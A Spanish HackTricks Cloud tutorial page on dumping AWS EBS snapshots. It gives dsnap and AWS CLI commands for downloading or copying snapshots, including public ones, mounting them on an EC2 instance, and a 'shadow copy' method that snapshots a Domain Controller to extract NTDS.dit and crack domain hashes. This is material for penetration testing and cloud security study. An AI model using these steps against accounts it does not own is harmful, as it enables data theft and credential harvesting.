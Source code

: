 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Comprobando un snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** que `dsnap` no te permitirá descargar instantáneas públicas. Para eludir esto, puedes hacer una copia de la instantánea en tu cuenta personal y descargar eso:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Para más información sobre esta técnica, consulta la investigación original en [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puedes hacer esto con Pacu usando el módulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Comprobando un snapshot en AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Móntalo en una VM de EC2 bajo tu control** (debe estar en la misma región que la copia de la copia de seguridad):

Paso 1: Se debe crear un nuevo volumen del tamaño y tipo que prefieras dirigiéndote a EC2 –> Volúmenes.

Para poder realizar esta acción, sigue estos comandos:

* Crea un volumen EBS para adjuntar a la instancia de EC2.
* Asegúrate de que el volumen EBS y la instancia estén en la misma zona.

Paso 2: Se debe seleccionar la opción "adjuntar volumen" haciendo clic derecho en el volumen creado.

Paso 3: Se debe seleccionar la instancia del cuadro de texto de la instancia.

Para poder realizar esta acción, utiliza el siguiente comando:

* Adjunta el volumen EBS.

Paso 4: Inicia sesión en la instancia de EC2 y lista los discos disponibles usando el comando `lsblk`.

Paso 5: Verifica si el volumen tiene datos usando el comando `sudo file -s /dev/xvdf`.

Si la salida del comando anterior muestra "/dev/xvdf: data", significa que el volumen está vacío.

Paso 6: Formatea el volumen al sistema de archivos ext4 usando el comando `sudo mkfs -t ext4 /dev/xvdf`. Alternativamente, también puedes usar el formato xfs usando el comando `sudo mkfs -t xfs /dev/xvdf`. Ten en cuenta que debes usar ext4 o xfs.

Paso 7: Crea un directorio de tu elección para montar el nuevo volumen ext4. Por ejemplo, puedes usar el nombre "newvolume".

Para poder realizar esta acción, utiliza el comando `sudo mkdir /newvolume`.

Paso 8: Monta el volumen en el directorio "newvolume" usando el comando `sudo mount /dev/xvdf /newvolume/`.

Paso 9: Cambia al directorio "newvolume" y verifica el espacio en disco para validar el montaje del volumen.

Para poder realizar esta acción, utiliza los siguientes comandos:

* Cambia al directorio `/newvolume`.
* Verifica el espacio en disco usando el comando `df -h .`. La salida de este comando debería mostrar el espacio libre en el directorio "newvolume".

Puedes hacer esto con Pacu usando el módulo `ebs__explore_snapshots`.

## Comprobando un snapshot en AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Copia Sombra

Cualquier usuario de AWS que posea el permiso **`EC2:CreateSnapshot`** puede robar los hashes de todos los usuarios del dominio creando una **copia de seguridad del Controlador de Dominio**, montándola en una instancia que controlan y **exportando el archivo NTDS.dit y el registro SYSTEM** para su uso con el proyecto secretsdump de Impacket.

Puedes usar esta herramienta para automatizar el ataque: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) o podrías usar una de las técnicas anteriores después de crear una copia de seguridad.

## Referencias

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
